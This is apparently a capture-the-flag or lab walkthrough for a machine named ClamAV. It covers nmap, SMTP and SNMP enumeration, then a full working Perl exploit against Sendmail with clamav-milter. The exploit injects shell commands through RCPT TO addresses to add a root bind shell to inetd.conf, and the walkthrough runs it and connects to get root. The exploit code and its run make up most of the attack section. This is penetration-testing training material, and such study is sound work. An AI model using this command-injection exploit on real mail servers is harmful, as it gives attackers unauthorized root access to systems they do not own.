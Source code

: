 # Exploitation Guide for ClamAV

## Summary

This machine is exploited via a remote command execution vulnerability in Sendmail with clamav-milter.

## Enumeration

### Nmap

We start off by running an `nmap` scan against all TCP ports:

```
kali@kali:~$ sudo nmap -p- 192.168.120.81
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-23 09:55 EDT
Nmap scan report for 192.168.120.81
Host is up (0.032s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

Next, let’s run an aggressive scan against the discovered open ports:

```
kali@kali:~$ sudo nmap -A -sV -p 22,25,80,139,199,445,60000 192.168.120.81
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-23 10:18 EDT
Nmap scan report for 192.168.120.81
Host is up (0.031s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 1.3.33 ((Debian GNU/Linux))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
|_http-title: Ph33r
139/tcp   open  tcpwrapped
199/tcp   open  smux       Linux SNMP multiplexer
445/tcp   open  tcpwrapped
60000/tcp open  ssh        OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: firewall|general purpose|proxy server|WAP|PBX
Running (JUST GUESSING): Linux 2.6.X (94%), Cisco embedded (94%), Riverbed embedded (94%), Ruckus embedded (94%), ZoneAlarm embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:cisco:sa520 cpe:/h:riverbed:steelhead_200 cpe:/h:ruckus:7363 cpe:/h:zonealarm:z100g cpe:/h:cisco:uc320w cpe:/h:cisco:rv042
Aggressive OS guesses: Cisco SA520 firewall (Linux 2.6) (94%), Linux 2.6.9 - 2.6.27 (94%), Riverbed Steelhead 200 proxy server (94%), Ruckus 7363 WAP (94%), Linux 2.6.9 (94%), Linux 2.6.18 - 2.6.22 (94%), Linux 2.6.9 (CentOS 4.4) (94%), ZoneAlarm Z100G WAP (93%), Linux 2.6.18 (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   29.05 ms 192.168.118.1
2   29.21 ms 192.168.120.81
```

### SMTP Enumeration

Using `netcat`, we will try interacting with the SMTP service on port 25:

```
kali@kali:~$ nc -vv 192.168.120.81 25
192.168.120.81: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.120.81] 25 (smtp) open
HELO test
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 23 Mar 2020 14:20:48 -0400; (No UCE/UBE) logging access from: [192.168.118.3](TEMP)-[192.168.118.3]
250 localhost.localdomain Hello [192.168.118.3], pleased to meet you
quit
221 2.0.0 localhost.localdomain closing connection
 sent 15, rcvd 299
kali@kali:~$
```

With the help of this enumeration, we have identified the service as `ESMTP Sendmail`

### SNMP Enumeration

Although we did not scan for the SNMP service on UDP port 161 (and  UDP scans are not very reliable anyway), we will attempt to enumerate  SNMP service to see if it is running on the target. We can use the `snmp-check` tool for this purpose:

```
kali@kali:~$ snmp-check 192.168.120.94
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.120.94:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 192.168.120.94
  Hostname                      : 0xbabe.local
  Description                   : Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
  Contact                       : Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)
  Location                      : Unknown (configure /etc/snmp/snmpd.local.conf)
  Uptime snmp                   : 00:33:28.71
  Uptime system                 : 00:32:46.43
  System date                   : 2020-4-28 16:22:09.0

...

  3761                  runnable              klogd                 /sbin/klogd                               
  3765                  runnable              clamd                 /usr/local/sbin/clamd                      
  3767                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
  3776                  runnable              inetd                 /usr/sbin/inetd
...
```

We find that SNMP service is indeed running on the target, and the  output generated by this enumeration is quite large. Sifting through the output, we find `clamav-milter` is running with Sendmail in `black-hole-mode`.

## Exploitation

### Remote Code Execution

Looking up exploits for this combination leads us to a [Remote Command Execution](https://www.exploit-db.com/exploits/4761) vulnerability.

Following the exploit, we will create the following Perl file:

```
kali@kali:~$ cat 4761.pl
#!/usr/bin/perl

use IO::Socket::INET;

print "Sendmail w/ clamav-milter Remote Root Exploit\n"; print "Copyright (C) 2007 Eliteboy\n";
if ($#ARGV != 0) {print "Give me a host to connect.\n";exit;} print "Attacking $ARGV[0]...\n";
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                                PeerPort => '25',
                                Proto    => 'tcp');
print $sock "ehlo you\r\n";
print $sock "mail from: <>\r\n";
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n"; print $sock "data\r\n.\r\nquit\r\n";
  while (<$sock>) {
          print;
}
```

This exploit should hopefully open a bind shell on the target on TCP  port 31337. Let’s give the exploit executable permissions, and then run  it:

```
kali@kali:~$ chmod 777 4761.pl
kali@kali:~$
kali@kali:~$ ./4761.pl 192.168.120.144
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.120.144...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 3 Aug 2020 16:30:08 -0400; (No UCE/UBE) logging access from: [192.168.118.3](FAIL)-[192.168.118.3]
250-localhost.localdomain Hello [192.168.118.3], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 073KU8jk004063 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
kali@kali:~$
```

If everything worked correctly, we should now be able to connect to the target on port 31337:

```
kali@kali:~$ nc -nv 192.168.120.144 31337
(UNKNOWN) [192.168.120.144] 31337 (?) open
whoami
root
```

## Escalation

As the vulnerable service was running with root privileges, no further privilege escalation is needed.
